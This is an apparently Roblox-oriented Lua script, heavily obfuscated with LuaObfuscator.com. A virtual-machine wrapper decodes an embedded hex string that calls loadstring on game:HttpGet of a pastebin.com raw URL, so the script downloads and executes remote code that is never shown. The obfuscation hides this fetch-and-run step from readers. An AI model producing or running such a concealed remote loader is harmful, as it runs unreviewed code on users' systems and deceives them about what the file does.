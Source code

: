 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v90=v2(v0(v30,16));if v19 then local v113=0;local v114;while true do if (1==v113) then return v114;end if (v113==0) then v114=v5(v90,v19);v19=nil;v113=1;end end else return v90;end end end);local function v20(v31,v32,v33) if v33 then local v91=0 -0 ;local v92;while true do if (v91==(0 -(0 + 0))) then v92=(v31/((3 -1)^(v32-((1067 -(68 + 997)) -1))))%((621 -((1825 -(226 + 1044)) + 64))^(((v33-(932 -(857 + 74))) -(v32-(569 -(367 + 201)))) + (928 -(214 + 713)))) ;return v92-(v92%(1 + 0)) ;end end else local v93=0;local v94;while true do if (v93==0) then v94=(1 + 1)^(v32-((1251 -373) -(282 + 595))) ;return (((v31%(v94 + v94))>=v94) and (1638 -(1523 + 114))) or (0 -0) ;end end end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + 2 + 0 );v18=v18 + 1 + 1 ;return (v36 * (373 -(32 + 85))) + v35 ;end local function v23() local v37=0 -0 ;local v38;local v39;local v40;local v41;while true do if (v37==(1 -0)) then return (v41 * (30800116 -14022900)) + (v40 * (65886 -(87 + 263))) + (v39 * (436 -(67 + 113))) + v38 ;end if (v37==0) then v38,v39,v40,v41=v1(v16,v18,v18 + 3 + 0 );v18=v18 + 3 + (3 -2) ;v37=2 -1 ;end end end local function v24() local v42=(1913 -(1789 + 124)) -0 ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==((1719 -(745 + 21)) -(802 + 150))) then v45=2 -1 ;v46=(v20(v44,1 -0 ,15 + 5 ) * ((999 -(915 + 82))^(11 + 21))) + v43 ;v42=(2 + 3) -3 ;end if (v42==(2 + 0)) then v47=v20(v44,27 -6 ,1169 -(116 + 1022) );v48=((v20(v44,1219 -(1069 + 118) )==(1 + 0)) and  -((5 -3) -1)) or (3 -2) ;v42=6 -3 ;end if (v42==(1 + 2)) then if (v47==(0 -(0 -0))) then if (v46==(0 -0)) then return v48 * (0 + 0) ;else v47=792 -(4 + 364 + 423) ;v45=0 -0 ;end elseif (v47==((1622 + 443) -(10 + 8))) then return ((v46==(0 -0)) and (v48 * ((1424 -(630 + 793))/(0 -0)))) or (v48 * NaN) ;end return v8(v48,v47-(4843 -3820) ) * (v45 + (v46/((444 -(416 + 26))^52))) ;end if (v42==(0 -0)) then v43=v23();v44=v23();v42=1 + 0 ;end end end local function v25(v49) local v50;if  not v49 then local v95=1055 -(87 + 968) ;while true do if (v95==(0 -0)) then v49=v23();if (v49==0) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -(4 -(1416 -(447 + 966))) );v18=v18 + v49 ;local v51={};for v67=1 + (0 -0) , #v50 do v51[v67]=v2(v1(v3(v50,v67,v67)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return function(v96,v97,v98,v99,v100,v101,v102,v103,v104) local v105=(function() return 1905 -(1881 + 24) ;end)();local v96=(function() return;end)();local v97=(function() return;end)();while true do if (v105~=(0 -0)) then else local v119=(function() return 0;end)();while true do if (1==v119) then v105=(function() return 1;end)();break;end if (v119~=(1763 -(454 + 1309))) then else v96=(function() return 0 + 0 ;end)();v97=(function() return nil;end)();v119=(function() return 1 -0 ;end)();end end end if (v105==(1 -0)) then while true do if (v96==0) then v97=(function() return v98();end)();if (v99(v97, #"/", #"}")~=(0 -0)) then else local v126=(function() return 285 -(134 + 151) ;end)();local v127=(function() return;end)();local v128=(function() return;end)();local v129=(function() return;end)();while true do if (v126==3) then if (v99(v128, #"nil", #"xnx")~= #":") then else v129[ #".com"]=(function() return v102[v129[ #".com"]];end)();end v103[v104]=(function() return v129;end)();break;end if ((1666 -(970 + 695))~=v126) then else v129=(function() return {v100(),v100(),nil,nil};end)();if (v127==(0 -0)) then local v159=(function() return 0;end)();local v160=(function() return;end)();while true do if (0==v159) then v160=(function() return 1990 -(582 + 1408) ;end)();while true do if (0==v160) then v129[ #"91("]=(function() return v100();end)();v129[ #"0836"]=(function() return v100();end)();break;end end break;end end elseif (v127== #"/") then v129[ #"-19"]=(function() return v101();end)();elseif (v127==(6 -4)) then v129[ #"xnx"]=(function() return v101() -((2 -0)^(60 -44)) ;end)();elseif (v127== #"91(") then local v201=(function() return 1824 -(1195 + 629) ;end)();local v202=(function() return;end)();while true do if (0==v201) then v202=(function() return 0;end)();while true do if (v202~=0) then else v129[ #"91("]=(function() return v101() -((2 -0)^(257 -(187 + 54))) ;end)();v129[ #".dev"]=(function() return v100();end)();break;end end break;end end end v126=(function() return 782 -(162 + 618) ;end)();end if (v126==0) then local v142=(function() return 0;end)();while true do if (v142~=(1 + 0)) then else v126=(function() return 1 + 0 ;end)();break;end if (v142~=0) then else v127=(function() return v99(v97,2, #"-19");end)();v128=(function() return v99(v97, #".com",6);end)();v142=(function() return 1 -0 ;end)();end end end if ((2 -0)==v126) then if (v99(v128, #"[", #"}")~= #".") then else v129[1 + 1 ]=(function() return v102[v129[2]];end)();end if (v99(v128,2,1638 -(1373 + 263) )~= #",") then else v129[ #"xnx"]=(function() return v102[v129[ #"gha"]];end)();end v126=(function() return 3;end)();end end end break;end end return v96,v97,v98,v99,v100,v101,v102,v103,v104;end end end;end)();local v53=(function() return function(v106,v107,v108) local v109=(function() return 0;end)();local v110=(function() return;end)();while true do if (v109==0) then v110=(function() return 1000 -(451 + 549) ;end)();while true do if (v110~=0) then else v106[v107-#"/" ]=(function() return v108();end)();return v106,v107,v108;end end break;end end end;end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {};end)();local v57=(function() return {v54,v55,nil,v56};end)();local v58=(function() return v23();end)();local v59=(function() return {};end)();for v69= #"|",v58 do local v70=(function() return 0;end)();local v71=(function() return;end)();local v72=(function() return;end)();local v73=(function() return;end)();while true do if (v70==(1 + 0)) then v73=(function() return nil;end)();while true do if (v71==(1 -0)) then if (v72== #".") then v73=(function() return v21()~=(0 -0) ;end)();elseif (v72==(1386 -(746 + 638))) then v73=(function() return v24();end)();elseif (v72~= #"91(") then else v73=(function() return v25();end)();end v59[v69]=(function() return v73;end)();break;end if (v71==(0 + 0)) then local v123=(function() return 0 -0 ;end)();local v124=(function() return;end)();while true do if (v123~=(341 -(218 + 123))) then else v124=(function() return 0;end)();while true do if (v124~=0) then else local v143=(function() return 1581 -(1535 + 46) ;end)();while true do if (v143~=(0 + 0)) then else v72=(function() return v21();end)();v73=(function() return nil;end)();v143=(function() return 1 + 0 ;end)();end if (v143~=(561 -(306 + 254))) then else v124=(function() return 1;end)();break;end end end if (v124~=1) then else v71=(function() return 1;end)();break;end end break;end end end end break;end if (v70~=0) then else v71=(function() return 0 + 0 ;end)();v72=(function() return nil;end)();v70=(function() return 1 -0 ;end)();end end end v57[ #"xnx"]=(function() return v21();end)();for v74= #".",v23() do FlatIdent_29B3D,Descriptor,v21,v20,v22,v23,v59,v54,v74=(function() return v52(FlatIdent_29B3D,Descriptor,v21,v20,v22,v23,v59,v54,v74);end)();end for v75= #".",v23() do v55,v75,v28=(function() return v53(v55,v75,v28);end)();end return v57;end local function v29(v61,v62,v63) local v64=v61[1468 -(899 + 568) ];local v65=v61[2 + 0 ];local v66=v61[7 -4 ];return function(...) local v76=v64;local v77=v65;local v78=v66;local v79=v27;local v80=604 -(268 + 296 + 39) ;local v81= -(291 -(60 + 230));local v82={};local v83={...};local v84=v12("#",...) -(1 + 0) ;local v85={};local v86={};for v111=0,v84 do if ((902<2325) and (v111>=v78)) then v82[v111-v78 ]=v83[v111 + (1457 -(282 + 1174)) ];else v86[v111]=v83[v111 + (812 -(569 + 242)) ];end end local v87=(v84-v78) + (2 -1) ;local v88;local v89;while true do local v112=0 + 0 ;while true do if (v112==0) then v88=v76[v80];v89=v88[1025 -(706 + 318) ];v112=1252 -(420 + 301 + 530) ;end if ((858<=2962) and (v112==(1272 -(945 + 326)))) then if (v89<=(9 -5)) then if (v89<=(1 + 0)) then if (v89==0) then local v130=(298 + 402) -(271 + 429) ;local v131;local v132;local v133;local v134;while true do if ((v130==2) or (3946<1288)) then for v163=v131,v81 do local v164=0;while true do if (v164==(0 + 0)) then v134=v134 + (1501 -(1408 + 92)) ;v86[v163]=v132[v134];break;end end end break;end if ((v130==(1086 -(461 + 625))) or (3242==567)) then v131=v88[1290 -(993 + 295) ];v132,v133=v79(v86[v131](v13(v86,v131 + 1 + 0 ,v88[(671 + 503) -(418 + 753) ])));v130=1 + 0 ;end if (v130==(1 + 0)) then v81=(v133 + v131) -(1 + 0) ;v134=0;v130=1 + 1 ;end end else v86[v88[2]]=v63[v88[532 -(406 + 123) ]];end elseif ((v89<=2) or (847>=1263)) then local v137=1769 -(1749 + 20) ;local v138;while true do if ((v137==(0 + 0)) or (2253==1851)) then v138=v88[1324 -(1249 + 73) ];v86[v138]=v86[v138](v13(v86,v138 + 1 + 0 ,v81));break;end end elseif (v89>(1148 -(466 + 679))) then v86[v88[4 -2 ]]={};else local v145=0 -0 ;local v146;local v147;while true do if (v145==(1901 -(106 + 1794))) then v86[v146 + 1 + 0 ]=v147;v86[v146]=v147[v88[2 + 2 ]];break;end if (v145==0) then v146=v88[5 -3 ];v147=v86[v88[(14 -7) -4 ]];v145=115 -(4 + 110) ;end end end elseif ((v89<=((1643 -1053) -(57 + 527))) or (2087>2372)) then if (v89>(1432 -(41 + 1386))) then v86[v88[105 -((37 -20) + 86) ]]();else v86[v88[2 + 0 ]]=v88[3];end elseif ((v89<=(14 -7)) or (4445<4149)) then do return;end elseif (v89==8) then v86[v88[2]]=v88[8 -5 ]~=(166 -(122 + 44)) ;else local v149=0 -(0 + 0) ;local v150;local v151;local v152;local v153;local v154;while true do if (v149==(6 -4)) then v86[v88[2 + 0 ]]=v63[v88[1 + 2 ]];v80=v80 + ((4 -3) -0) ;v88=v76[v80];v154=v88[67 -(30 + 35) ];v153=v86[v88[3]];v149=3 + 0 ;end if ((v149==(1262 -(1043 + (967 -(239 + 514))))) or (1818==85)) then v154=v88[7 -5 ];v151,v152=v79(v86[v154](v13(v86,v154 + (1213 -(323 + 889)) ,v88[7 -4 ])));v81=(v152 + v154) -(581 -(361 + 219)) ;v150=0;for v193=v154,v81 do v150=v150 + (321 -(53 + 94 + 173)) ;v86[v193]=v151[v150];end v149=2 + 4 ;end if (v149==1) then v80=v80 + (1330 -(797 + 532)) ;v88=v76[v80];v86[v88[415 -(15 + 398) ]]=v63[v88[985 -(18 + 701 + 263) ]];v80=v80 + (3 -2) ;v88=v76[v80];v149=2 + 0 ;end if ((630<2127) and (v149==(3 + 1 + 0))) then v80=v80 + ((2000 -1149) -(20 + 830)) ;v88=v76[v80];v86[v88[2 + 0 ]]=v88[1205 -(373 + 829) ]~=(126 -(116 + 10)) ;v80=v80 + 1 + 0 ;v88=v76[v80];v149=(1474 -(476 + 255)) -(542 + 196) ;end if (v149==(12 -6)) then v80=v80 + 1 ;v88=v76[v80];v154=v88[(1131 -(369 + 761)) + 1 ];v86[v154]=v86[v154](v13(v86,v154 + 1 + 0 ,v81));v80=v80 + 1 + 0 ;v149=18 -11 ;end if (v149==(7 -(3 + 1))) then v86[v154 + (1552 -((2044 -918) + 425)) ]=v153;v86[v154]=v153[v88[409 -(118 + 287) ]];v80=v80 + 1 ;v88=v76[v80];v86[v88[3 -1 ]]=v88[11 -8 ];v149=4;end if (v149==(1128 -((356 -(64 + 174)) + 1003))) then v88=v76[v80];v86[v88[5 -3 ]]();v80=v80 + ((54 + 324) -(142 + 235)) ;v88=v76[v80];do return;end break;end if (v149==((0 -0) -0)) then v150=nil;v151,v152=nil;v153=nil;v154=nil;v86[v88[1 + 1 ]]={};v149=978 -(553 + 424) ;end end end v80=v80 + (1 -(336 -(144 + 192))) ;break;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F616E7376616D5432000A4Q00097Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000500016Q000200056Q00013Q00024Q0001000100016Q00017Q00",v9(),...);